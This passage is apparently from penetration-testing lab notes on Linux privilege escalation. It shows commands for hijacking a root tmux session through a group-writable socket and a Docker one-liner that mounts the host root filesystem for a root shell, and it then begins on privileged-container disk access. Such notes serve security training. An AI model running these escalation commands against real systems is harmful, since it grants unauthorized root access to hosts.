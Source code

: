 &#x20;&#x20;

```shell-session
htb@NIX02:~$ tmux -S /shareds new -s debugsess
htb@NIX02:~$ chown root:devs /shareds
```

If we can compromise a user in the `dev` group, we can attach to this session and gain root access.

Check for any running `tmux` processes.

```shell-session
htb@NIX02:~$  ps aux | grep tmux

root      4806  0.0  0.1  29416  3204 ?        Ss   06:27   0:00 tmux -S /shareds new -s debugsess
```

Confirm permissions.

```shell-session
htb@NIX02:~$ ls -la /shareds 

srw-rw---- 1 root devs 0 Sep  1 06:27 /shareds
```

Review our group membership.

```shell-session
htb@NIX02:~$ id

uid=1000(htb) gid=1000(htb) groups=1000(htb),1011(devs)
```

Finally, attach to the `tmux` session and confirm root privileges.

```shell-session
htb@NIX02:~$ tmux -S /shareds

id

uid=0(root) gid=0(root) groups=0(root)
```

## Docker

{% embed url="https://flast101.github.io/docker-privesc/" %}

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation" %}

{% embed url="https://gtfobins.github.io/gtfobins/docker/" %}

```bash
docker run -v /:/mnt --rm -it alphine chroot /mnt sh
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

#### Mounting Disk - Poc1

Well configured docker containers won't allow command like **fdisk -l**. However on miss-configured docker command where the flag `--privileged` or `--device=/dev/sda1` with caps is specified, it is possible to get the privileges to see the host drive.
